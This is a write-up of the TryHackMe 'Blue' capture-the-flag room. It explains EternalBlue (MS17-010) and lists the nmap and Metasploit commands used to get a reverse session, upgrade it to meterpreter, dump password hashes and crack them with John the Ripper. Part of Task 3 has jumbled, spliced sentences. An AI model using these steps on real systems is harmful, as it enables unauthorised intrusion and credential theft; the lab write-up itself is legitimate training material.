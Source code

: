 A guided write to the "Blue" room on THM
TryHackMe Room: https://tryhackme.com/room/blue

# Background on Eternal Blue
Server Message Block (SMB) is a network protocol used by Windows systems to share files, printers, and other resources over a network. It allows a client to request access to files or services on a server, and the server responds with the requested data or action. SMB operates over TCP ports 139 and 445, with modern systems using port 445 by default.

The protocol manages authentication, communication, and data transfer between systems. It supports operations like reading and writing files, creating directories, and controlling printers. SMB also handles inter-process communication through named pipes, which lets applications on different machines communicate.

SMBv1, the earliest version, is outdated and has weak security controls. It trusts input too easily and does not handle malformed requests safely. These weaknesses led to critical exploits like EternalBlue. Later versions, SMBv2 and SMBv3, improved efficiency and added stronger security measures, including encryption and better authentication methods.

EternalBlue specifically abuses the way SMBv1 processes specially crafted packets. By sending malicious requests, an attacker triggers a buffer overflow that allows them to execute arbitrary code on the target system with high privileges. This makes SMB both essential in Windows environments and a high-value target when unpatched.

# task 1 (recon) 
Objective: Identify open ports, services, and potential vulnerabilities on the target machine.

Command Used:
```bash
nmap --script="vuln" -sV -sC -A -T5 10.10.56.99
```

Explanation of Flags:
--script="vuln": Runs vulnerability scripts to check for known weaknesses.

-sV: Detects service versions.

-sC: Runs default scripts for additional info.

-A: Enables OS detection, version detection, script scanning, and traceroute.

-T5: Increases scan speed.

Scan Results Summary:
[alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20114952%20-%20Copy.png)

Observations:
* SMB ports (139/445) are open, making it a primary target.

* RDP (3389) is tcpwrapped — needs credentials.

* RPC ports (135 + high range) are open but not directly exploitable without authentication.
Key takeaway:
MS17-010 is the exploitable vector. This allows remote code execution via SMBv1 without authentication in many cases.

# Task 2 Gain Access
Task 2 – Gaining Access (THM Writeup)
Objective

The goal of this task was to gain access to the target Windows machine by exploiting a known vulnerability in the SMBv1 service, specifically MS17-010, also known as EternalBlue.

Steps Taken

Starting the Exploitation
The first step involved opening the Metasploit Framework, a commonly used exploitation tool. This allowed access to a large set of pre-built exploits and payloads specifically designed for known vulnerabilities like MS17-010.

Finding the Correct Exploit
Within the framework, a search was conducted to locate the exploit module that targets MS17-010. The module designed for Windows SMBv1 was selected as it matched the target system’s open SMB port and version.

Reviewing Module Requirements
Before running the exploit, the module options were reviewed. This included confirming the target IP, the port on which SMB was running, and the payload to use for gaining a session. It is important to verify these details to ensure the exploit runs successfully.

Setting Up the Exploit
The exploit module was configured with the target machine’s IP and a payload that would create a remote session back to the attacking machine. This step ensures that, when the exploit succeeds, access is granted in a controlled and predictable way.

Launching the Exploit
The exploit was executed against the target machine. Due to the vulnerability in SMBv1, the exploit successfully triggered remote code execution, providing a session on the system.

the following lines of code was used minus the output are
```bash
msfconsole
search ms17-010
use 0
show options
set RHOST 10.10.56.99
Set LHOST 10.8.196.205
exploit
```
[alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20121655.png)
# Task 3 (Privlage Escalation)
By using one of the post exploitation modules, we will upgrade our shell to meterpreter shell

```bash
search shell_to_meterpreter
```

we can see list of modules, there we find only one module, shown below

post/multi/manage/shell_to_meterpreter
[alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20123638.png)
[alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20123703.png)
As giHere we need to set the “SESSION” also the LHOST

After setting all these, we will Exploit to get the meterpreter shellven below to interact with the module we will be using “use 0” and then show options, what options we will be required to change ?
[alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20140530.png)
# task 4 cracking
As said to run the command “hashdump” these command had dumped three user names along with the encrypted passwords, we need to crack the encrypted password and find out the answer.
[alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20140530.png)
 I cracked the password with the help from john the ripper 
[alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202024-02-22%20181804.png)
 #task 5 (flag)
 we have have full access to the computer we can access the flags
